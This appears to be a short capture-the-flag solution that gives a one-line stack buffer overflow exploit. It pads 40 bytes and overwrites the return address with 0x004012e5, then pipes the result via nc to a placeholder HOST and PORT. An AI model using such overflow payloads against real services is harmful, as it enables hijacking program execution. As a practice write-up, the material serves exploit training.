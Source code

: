 # Solution

``` python2 -c "print b'A' * 40 + __import__('struct').pack('Q', 0x004012e5)" | nc HOST PORT ```